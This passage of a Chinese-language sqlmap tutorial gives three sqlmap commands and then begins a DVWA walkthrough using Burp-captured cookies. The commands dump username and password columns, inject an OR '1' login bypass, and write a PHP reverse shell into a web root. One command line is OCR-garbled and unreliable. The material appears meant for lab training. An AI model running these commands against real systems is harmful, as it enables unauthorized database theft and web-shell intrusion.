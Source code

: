```sql
python sqlmap.py -u "http://www.vuln.cn/post.php?id=1" --dbms mysql -D test -T admin -C "username,password" --dump
sqlmap -u 'http://10.10.10.100/login.php' --data="email=admin' or '1'#&pass=admin' or '1'#&submit=Login&submitted=TRUE" --level=5 --risk=3 --batch -D ch16 -T users --dump
sqlmap -u 'http://10.10.10.100/login.php' --data="email=admin' or '1 '1pss=admin’or '1'n6submitaloginbsubmitted-TRLE" --level=5 --risk=3 --batch --file-write='php-reverse-shell.php' --file-dest='/var/www/php-reverse-shell.php'
```

### 案例演示

【sqlmap跑post的数据（含cookie）】

#### 案例一：使用Sqlmap获取DVWA数据

dvwa-sql-Low

1、使用BP自带浏览器进行抓包(主要是抓取想要登入的cookie信息)

![img](./assets/1729918886332-caa547f5-bcf7-44e1-9a3c-b664e0f92d8a.png)

2、将数据包保存成文件，放入sqlmap目录下

![img](./assets/1729918886335-08d2a431-9391-4bbb-b010-f01f203f3b8a.png)
